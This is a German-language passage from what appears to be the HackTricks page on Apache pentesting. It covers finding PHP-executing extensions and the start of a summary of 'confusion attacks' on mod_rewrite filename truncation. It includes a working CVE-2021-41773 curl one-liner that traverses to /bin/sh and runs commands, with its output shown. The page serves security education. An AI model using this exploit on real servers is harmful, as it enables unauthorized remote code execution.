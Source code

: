 # Apache

{% hint style="success" %}
Lerne & übe AWS Hacking:<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">\
Lerne & übe GCP Hacking: <img src="../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details><summary>Unterstütze HackTricks</summary></details>
{% endhint %}

## Ausführbare PHP-Erweiterungen

Überprüfe, welche Erweiterungen den Apache-Server ausführen. Um sie zu suchen, kannst du ausführen:
```bash
grep -R -B1 "httpd-php" /etc/apache2
```
Auch einige Orte, an denen Sie diese Konfiguration finden können, sind:
```bash
/etc/apache2/mods-available/php5.conf
/etc/apache2/mods-enabled/php5.conf
/etc/apache2/mods-available/php7.3.conf
/etc/apache2/mods-enabled/php7.3.conf
```
## CVE-2021-41773

{% code overflow="wrap" %}
```bash
curl http://172.18.0.15/cgi-bin/.%2e/.%2e/.%2e/.%2e/.%2e/bin/sh --data 'echo Content-Type: text/plain; echo; id; uname'
uid=1(daemon) gid=1(daemon) groups=1(daemon)
Linux
```
{% endcode %}

## Verwirrungsangriff <a href="#a-whole-new-attack-confusion-attack" id="a-whole-new-attack-confusion-attack"></a>

Diese Arten von Angriffen wurden [**von Orange in diesem Blogbeitrag**](https://blog.orange.tw/2024/08/confusion-attacks-en.html?m=1) eingeführt und dokumentiert, und das Folgende ist eine Zusammenfassung. Der "Verwirrungs"-Angriff missbraucht im Grunde, wie die Dutzenden von Modulen, die zusammenarbeiten, um einen Apache zu erstellen, nicht perfekt synchronisiert sind, und das Modifizieren unerwarteter Daten in einigen von ihnen kann eine Schwachstelle in einem späteren Modul verursachen.

### Dateinamenverwirrung

#### Trunkierung

Das **`mod_rewrite`** wird den Inhalt von `r->filename` nach dem Zeichen `?` kürzen ([_**modules/mappers/mod\_rewrite.c#L4141**_](https://github.com/apache/httpd/blob/2.4.58/modules/mappers/mod\_rewrite.c#L4141)). Das ist nicht ganz falsch, da die meisten Module `r->filename` als URL behandeln. In anderen Fällen wird dies jedoch als Dateipfad behandelt, was ein Problem verursachen würde.
